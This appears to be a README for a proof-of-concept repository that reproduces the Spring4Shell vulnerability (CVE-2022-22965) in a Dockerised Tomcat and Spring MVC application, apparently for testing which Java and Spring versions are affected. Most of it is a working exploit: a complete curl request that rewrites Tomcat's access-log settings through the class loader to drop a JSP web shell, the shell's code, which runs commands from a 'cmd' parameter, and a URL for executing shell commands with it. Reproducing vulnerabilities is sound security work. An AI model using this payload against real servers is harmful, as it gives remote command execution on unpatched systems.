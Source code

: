 # Replicate spring shell 0-day vulnerability
- In a spring mvc WAR application running on Tomcat.
- The issue is reproducible in a Java 11 compiled WAR running in tomcat 8
- The issue is NOT reproducible in a Java 8 compiled WAR running in tomcat 8
  - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
  - Switch Dockerfile base image to  tomcat:8-jdk8-corretto


## Replicate vulnerability
1. Run command to:
   - Package a war file
   - Build a tomcat 8 JDK 11 image (This POC uses Amazon Corretto, but pick your applicable image)
   - Run a container from the image        
 `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"` will display
`<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %>//`
__This mean the application is compromised__


4. Exploitation: Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, _the application is not compromised_
  - If the output is the response of a shell command execution, _the application is compromised_. Refer remediation steps in the references below

5. Switch java and spring versions
    - Switch the properties in pom.xml to use Java 8 and spring 3.2.9
    - Switch Dockerfile base image to __tomcat:8-jdk8-corretto__  (This POC uses Amazon Corretto, but pick your applicable image)
    - Repeat above steps and you will see that the service is not compromised
    

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/